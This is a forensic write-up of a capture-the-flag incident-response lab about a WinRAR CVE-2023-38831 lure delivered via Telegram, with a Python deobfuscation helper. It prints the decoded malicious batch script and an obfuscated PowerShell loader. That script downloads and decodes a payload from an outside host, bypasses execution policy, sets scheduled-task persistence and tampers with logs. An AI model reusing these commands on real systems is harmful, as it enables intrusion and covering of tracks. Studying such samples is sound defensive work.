## Challenge Scenario

I am part of the incident response team at FinTrust Bank. Earlier in the morning, the network monitoring system flagged unusual outbound traffic from several workstations. The IT team had already completed some preliminary triage and suspected that the compromise was linked to an exploited vulnerability in WinRAR.

## Materials

- VHD file: `c125-SpottedInTheWild.vhd`

## Questions and Answers

### Q1: In your investigation into the FinTrust Bank breach, you found an application that was the entry point for the attack. Which application was used to download the malicious file?

**Answer:** `Telegram`

The challenge provided a `.vhd` file, which stands for **Virtual Hard Disk**. In practice, this meant I was working with a disk image that could contain partitions, file systems, folders, and files from the affected machine. I opened it with **FTK Imager** so I could browse the file system safely.

Because the question asked which application downloaded the malicious file, I started with the user's download locations. That gave me the first useful lead: inside the `Downloads` directory, there was a `Telegram Desktop` folder.



Inside that folder, I found an archive named `SANS SEC401.rar`. The file name looked like legitimate SANS training material, which made it a believable lure. To validate whether it was suspicious, I uploaded the archive to VirusTotal, where it was flagged as malicious.



At this point, the download path and folder name tied the initial delivery method to **Telegram**.

### Q2: Finding out when the attack started is critical. What is the UTC timestamp for when the suspicious file was first downloaded?

**Answer:** `2024-02-03 07:33:20`

After identifying `SANS SEC401.rar` as the suspicious archive, I went back to FTK Imager and checked the file metadata. The timestamp showing when the archive first appeared on disk gave me the earliest clear point in the attack timeline.



The relevant UTC timestamp was:

```text
2024-02-03 07:33:20
```

### Q3: Knowing which vulnerability was exploited is key to improving security. What is the CVE identifier of the vulnerability used in this attack?

**Answer:** `CVE-2023-38831`

With the entry point and timestamp established, I moved into the archive itself. The suspicious file recovered from the disk image was located at:

```text
C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar
```

Inside the archive, the attacker used a lure that looked like legitimate SANS course material. The important naming pattern was:

```text
SANS SEC401.pdf
SANS SEC401.pdf .cmd
```



At first glance, a victim would probably expect to open a PDF document. However, the archive also contained a command script with a deceptive double-extension style name. That was suspicious because `.cmd` files are executable Windows command scripts, not documents. The extra space before `.cmd` made the file look even more like a harmless PDF when viewed quickly.

This behavior matches **CVE-2023-38831**, a WinRAR vulnerability affecting versions before **6.23**. The flaw allowed attackers to craft an archive so that opening a seemingly benign file could cause WinRAR to execute another file stored inside a similarly named folder or path structure. In other words, the user thinks they are opening a document, but the archive-handling logic can lead to attacker-controlled script execution.

VirusTotal also tagged the submitted `SANS SEC401.rar` sample with indicators such as `cve-2023-38831`, `exploit`, and `detects-user-input`, which further supported the conclusion that the archive was designed to trigger malicious execution through user interaction with WinRAR.

### Q4: In examining the downloaded archive, you noticed a file with an odd extension indicating it might be malicious. What is the name of this file?

**Answer:** `SANS SEC401.pdf .cmd`

The suspicious file name was the command script hidden behind the PDF lure:

```text
SANS SEC401.pdf .cmd
```

The trailing `.cmd` extension is the key detail. Even though the name starts with `SANS SEC401.pdf`, Windows treats the final extension as the actual file type. That means this file is a command script, not a PDF.

### Q5: Uncovering the methods of payload delivery helps in understanding the attack vectors used. What is the URL used by the attacker to download the second stage of the malware?

**Answer:** `http://172.18.35.10:8000/amanwhogetsnorest.jpg`

To find the second-stage URL, I opened the malicious `.cmd` file in VS Code. At first, the content did not render as readable ASCII or UTF-8 text. Instead, it appeared as strange Unicode characters, including CJK/Hangul-like glyphs. This is a classic **mojibake** situation, where byte data is decoded with the wrong character encoding.

In this case, VS Code appeared to interpret the file as UTF-16/Unicode text. That caused pairs of bytes from the original script to render as unrelated Unicode characters. Even though most of the content looked corrupted, I could still see recognizable strings such as `C:\Windows\Temp`, which suggested that the underlying data was likely a Windows command script or payload-related command sequence.



That meant the file was not necessarily unreadable. It was either saved with an unexpected encoding or intentionally made awkward to slow down static analysis. I reopened the file in VS Code using **UTF-8**, and the content became readable.



The script was still heavily obfuscated, but the core trick was easier to recognize. It defined variables containing shuffled character sets and then reconstructed commands one character at a time using batch substring syntax:

```bat
@set "LzKV=xPi2d6RfNUZBTgc18mVK@oWC0hqluM57GyQ3DYsHFEjXw9IAak t4SpOeLJbvnzr"
%LzKV:~14,1%%LzKV:~4,1%%LzKV:~50,1%...
```

In batch scripting, this syntax:

```bat
%VAR:~start,length%
```

extracts characters from an environment variable.

In this sample, the malware used the same technique on a much larger scale. It stored shuffled character sets inside variables such as `LzKV`, then used hundreds of substring references to reconstruct the real commands. Based on that logic, I wrote a Python helper to parse the `set "VAR=value"` assignments, store the variables, and replace each `%VAR:~offset,length%` expression with the corresponding character.

```python
#!/usr/bin/env python3
import argparse
import re
from pathlib import Path

SUBSTR_RE = re.compile(r"%([^%\r\n]+?):~(-?\d+)(?:,(-?\d+))?%")
VAR_RE = re.compile(r"%([^%:\r\n]+?)%")
SET_RE = re.compile(r'@?\s*set\s+"?([^=\r\n"]+)=([^"\r\n]*)"?', re.I)


def substr(value: str, start: int, length: int | None) -> str:
    if start < 0:
        start += len(value)
    start = max(start, 0)

    if length is None:
        return value[start:]
    if length < 0:
        return value[start:len(value) + length]
    return value[start:start + length]


def split_cmd(line: str) -> list[str]:
    parts = []
    buf = []
    escaped = False

    for char in line:
        if escaped:
            buf.append(char)
            escaped = False
        elif char == "^":
            buf.append(char)
            escaped = True
        elif char == "&":
            part = "".join(buf).strip()
            if part:
                parts.append(part)
            buf = []
        else:
            buf.append(char)

    part = "".join(buf).strip()
    if part:
        parts.append(part)

    return parts


def find_sets(line: str) -> list[tuple[str, str]]:
    result = []
    for part in split_cmd(line):
        for match in SET_RE.finditer(part):
            result.append((match.group(1), match.group(2)))
    return result


def expand(line: str, env: dict[str, str]) -> str:
    def replace_substr(match: re.Match) -> str:
        name = match.group(1)
        start = int(match.group(2))
        length = int(match.group(3)) if match.group(3) is not None else None
        return substr(env.get(name, ""), start, length)

    def replace_var(match: re.Match) -> str:
        return env.get(match.group(1), "")

    for _ in range(20):
        old = line
        line = SUBSTR_RE.sub(replace_substr, line)
        line = VAR_RE.sub(replace_var, line)
        if line == old:
            break

    return line


def clean(line: str) -> str:
    line = line.replace("\ufeff", "").replace("\ufffd", "")
    return "".join(
        char for char in line
        if char in "\t\r\n" or 32 <= ord(char) <= 126
    ).rstrip()


def deobfuscate(text: str) -> str:
    env = {}
    output = []

    for line in text.splitlines():
        for name, value in find_sets(line):
            env[name] = value

        line = expand(line, env)

        for name, value in find_sets(line):
            env[name] = value

        line = clean(line)
        if line.strip():
            output.append(line)

    return "\n".join(output)


def get_output_path(input_path: Path, output_arg: str | None) -> Path:
    if output_arg:
        return Path(output_arg)
    return input_path.with_suffix(input_path.suffix + ".deobfuscated.cmd")


def main() -> None:
    parser = argparse.ArgumentParser()
    parser.add_argument("input")
    parser.add_argument("-o", "--output")
    args = parser.parse_args()

    input_path = Path(args.input)
    output_path = get_output_path(input_path, args.output)

    text = input_path.read_text(encoding="utf-8", errors="replace")
    result = deobfuscate(text)

    output_path.parent.mkdir(parents=True, exist_ok=True)
    output_path.write_text(result, encoding="utf-8", errors="replace")


if __name__ == "__main__":
    main()
```

The script returned the following deobfuscated output:

```bat
&@cls&@set "XV=MU@7cq4nGzJI8EwBRmCrsQYdxpTZWbfOgu5yA6VlKNh2eDo10FkHaXS3tv i9jLP"
@set "H=ECFxjequ4HlhAVSbY0dg fRKBpvZnPoNQIa9@1ciw7XDmrOTt28z5s3kWJGUMLy6"
@set "O=gDfZ5IKCOlQy903Ea8M1PAH2vnwiNGeTY4p6qjScUL@F Jk7mWzRxburBstdVohX"
@set "cJoQ=tcMgEyl@Y23VxOSQCvhoqdTDsAX54f8ZHRNBz6a1WPukbIrnwjFG0 KUeip9m7LJ"
@set "R=6W01enSLr3Q9qfwvZUsmDjMg pK2JEAIzlx8TVFaGoyOh7ikdYbNcH4BuXtR@5CP"
@set "LzKV=xPi2d6RfNUZBTgc18mVK@oWC0hqluM57GyQ3DYsHFEjXw9IAak t4SpOeLJbvnzr"
REM "No worries mate. You just got hacked"
cd C:\Windows\Temp
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg
certutil -decode amanwhogetsnorest.jpg normal.zip >nul
echo Get-ChildItem -Path "C:\Windows\Temp" ^-Filter ^*.zip ^| Expand-Archive -DestinationPath "C:\Windows\Temp" ^-Force > C:\Windows\Temp\z.ps1
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
REM "If I win, you become my slave."
del z.ps1
del amanwhogetsnorest.jpg
del normal.zip
del C:\Windows\system32\Tasks\whoisthebaba
timeout /t 200 /nobreak >nul
del C:\Downloads
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1"
del C:\Windows\Temp\Eventlogs.ps1
```

Now the payload-delivery command was visible:

```bat
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg
```

This command uses `BITSAdmin` to download a file from:

```text
http://172.18.35.10:8000/amanwhogetsnorest.jpg
```

The `.jpg` extension is likely another disguise. The next command immediately runs `certutil -decode` against the downloaded file and writes `normal.zip`, which indicates that the downloaded "image" was being used as an encoded container for the next stage.

### Q6: To further understand how attackers cover their tracks, identify the script they used to tamper with the event logs. What is the script name?

**Answer:** `Eventlogs.ps1`

The decoded batch script from Q5 also revealed the next important clue:

```bat
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1"
```

This command opens Command Prompt, runs PowerShell, bypasses the configured execution policy, executes `C:\Windows\Temp\Eventlogs.ps1`, and then exits.

The most important part is the script path:

```text
C:\Windows\Temp\Eventlogs.ps1
```

The `-EP Bypass` option stands for **ExecutionPolicy Bypass**. Normally, Windows may block unsigned PowerShell scripts depending on the local policy. With this option, PowerShell ignores that restriction for this run.

The script being staged under `C:\Windows\Temp` also fit the rest of the attack pattern. Attackers commonly use temporary directories to drop payloads, scripts, tools, and output files before executing or deleting them.

### Q7: Knowing when unauthorized actions happened helps in understanding the attack. What is the UTC timestamp for when the script that tampered with event logs was run?

**Answer:** `2024-02-03 07:38:01 UTC`

To determine when the event-log tampering script was executed, I examined the `Windows PowerShell.evtx` log because the suspicious file had the `.ps1` extension, which pointed to PowerShell execution.



After locating the PowerShell event log on disk, I parsed it with `evtx_dump` and exported the records in JSON format for easier inspection.

The relevant evidence appeared in **Record 56**, which contains **Event ID 403** from the `Windows PowerShell` channel. Event ID 403 is a PowerShell engine lifecycle event. In this case, the engine state changed to `Stopped`, which means the PowerShell session or script execution had ended.



The most important field was `HostApplication`, which showed the exact command that was executed:

```text
powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1
```



This command was suspicious for two reasons. The `-NOP` flag starts PowerShell without loading a user profile, and `-EP Bypass` bypasses the configured PowerShell execution policy. Both options are commonly seen in malicious or unauthorized PowerShell execution because they reduce restrictions and avoid normal user environment settings.

The event timestamp was:

```text
2024-02-03T07:38:01.124150Z
```

Rounded to the requested format, the UTC timestamp was **2024-02-03 07:38:01 UTC**.

### Q8: We need to identify if the attacker maintained access to the machine. What is the command used by the attacker for persistence?

**Answer:** `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST`

To determine whether the attacker established persistence, I went back to the decoded batch script and also checked a public sandbox analysis for the malicious file, [`SANS SEC401.pdf .cmd`](https://any.run/report/5790225b1bcfa692c57a0914dd78678ceef6e212fbe7042b7ddf5a06fd4ab70d/ed4282c3-c0ed-493c-9a55-91eaa1ed439d), on ANY.RUN. The report classified the submitted file as malicious and showed the process activity produced during execution.

In the process tree, the malicious command file launched several child processes, including PowerShell and `schtasks.exe`. The persistence command was:



```text
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
```

This command creates a Windows Scheduled Task. Scheduled tasks are commonly used for persistence because they allow an attacker to automatically re-run a payload at a defined interval without manual execution.

Breaking down the command:

```text
schtasks /create
```

Creates a new scheduled task.

```text
/sc minute /mo 3
```

Configures the task to run on a minute-based schedule with a modifier of `3`, meaning it runs every 3 minutes.

```text
/tn "whoisthebaba"
```

Sets the scheduled task name to `whoisthebaba`.

```text
/tr C:\Windows\Temp\run.bat
```

Sets the task action. When triggered, it executes `C:\Windows\Temp\run.bat`.

```text
/RL HIGHEST
```

Runs the task with the highest available privileges.

The ANY.RUN report also showed that `schtasks.exe` ran with **High** integrity level and returned **exit code 0**, meaning the command completed successfully. This strongly indicates that the attacker attempted to maintain access by creating a recurring scheduled task that ran `run.bat` from the temporary directory.

### Q9: To understand the attacker's data exfiltration strategy, we need to locate where they stored their harvested data. What is the full path of the file storing the data collected by one of the attacker's tools in preparation for data exfiltration?

**Answer:** `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt`

To identify where the attacker stored the collected data before exfiltration, I returned to the dropped files referenced by the malicious batch script. Based on the earlier findings, the attacker staged most of the follow-on files inside `C:\Windows\Temp`, so I inspected that directory in FTK Imager and found two suspicious files: `run.bat` and `run.ps1`.



After extracting both files, I inspected `run.ps1`. At first glance, the script was heavily obfuscated:

```powershell
$best64code = "K0AVFdEIk9Ga0VWTtAiIyFmdk8CMwADO6UjLx4CO2EjLykTMv8iOwRHdoJCIpJXVtACdzVWdxVmUiV2VtU2avZnbJpQDpkSZslmR0VHc0V3bkgyclRXeCxGbBRWYlJlO60VZslmRu8USu0WZ0NXeTtFKn5WayR3U0YTZzFmQvRlO60FdyVmdu92Qu0WZ0NXeTtFI9AichZHJK0gIlxWaGRXdwRXdvRCIvRHIkVmdhNHIzRHb1NXZyBibhN2UiACdz9GStUGdpJ3VK0gCN0nCN0HIgACIK0QZslmR0VHc0V3bkACa0FGUlxWaG1CIk5WZwBXQtASZslmRtQXdPBCfgIiLl5WasZmZvBycpBCUJRnblJnc1NGJgQ3cvhkIgACIgACIgAiCNIiLl5WasZmZvBycpBCUJRnblJnc1NGJgQ3cvhkIgQ3cvhULlRXaydFIgACIgACIgoQD7BSZzxWZg0HIgACIK0QZslmR0VHc0V3bkACa0FGUlxWaG1CIk5WZwBXQtASZslmRtQXdPBCfgIiLl5Was52bgMXagAVS05WZyJXdjRCI0N3bIJCIgACIgACIgoQDi4SZulGbu9GIzlGIQlEduVmcyV3YkACdz9GSiACdz9GStUGdpJ3VgACIgACIgAiCNsHIpwGb15GJgUmbtACdsV3clJHJoAiZpBCIgAiCNoQDlVnbpRnbvNUesRnblxWaTBibvlGdjFkcvJncF1CIxACduV3bD1CIQlEduVmcyV3YkASZtFmTyVGd1BXbvNULg42bpR3Yl5mbvNUL0NXZUBSPgQHb1NXZyRCIgACIK0gI05WZyJXdjRSKpEDIrASKn4yJoY2T4VGZulEdzFGTuAVS0JXY0NHJgwCMocmbpJHdzJWdT5CUJRnchR3ckgCJiASPgAVS05WZyJXdjRCIgACIK0wegkyKrQnblJnc1NGJgsDZuVGJgUGbtACduVmcyV3YkAyO0JXY0NHJg0DI05WZyJXdjRCKgI3bmpQDK0QXzsVKoMXZ0lnQzNXZyRGZBRXZH5SKQlEZuVGJoU2cyFGU6oTXzNXZyRGZBBVSuQXZO5SblR3c5N1Wg0DIk5WZkoQDdNzWpgyclRXeCN3clJHZkFEdldkLpAVS0JXY0NHJoU2cyFGU6oTXzNXZyRGZBBVSuQXZO5SblR3c5N1Wg0DI0JXY0NHJK0gCNICd4RnL2UzM0wkQcBXblRFXsF2YvxEXhRXYEBHcBxVZslmZvJHUyV2cVpjduVGJiASPgUGbpZEd1BHd19GJK0gI5kjLx4CO2EjLykTMiASPgAVSk5WZkoQDiEjLx4CO2EjLykTMiASPgAVS0JXY0NHJ" ;
$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
$LOAdCode = [System.TexT.EncOdING]::uTF8.gETStrING([SYSTeM.COnvErT]::FROmBAse64strIng("$baSE64")) ;
$PWN = "INv"+"oKE"+"-EX"+"pre"+"ssi"+"oN" ; new-alIAS -naME pWn -vALue $Pwn -foRcE ; pwN $LOAdCODe ;
```

The script stored a large encoded string inside `$best64code`, reversed it, decoded it from Base64, and then executed the decoded content with `Invoke-Expression`. The attacker also split the string `Invoke-Expression` into smaller pieces:

```powershell
$PWN = "INv"+"oKE"+"-EX"+"pre"+"ssi"+"oN"
```

That is a common obfuscation technique used to make static analysis harder and avoid simple keyword-based detection.

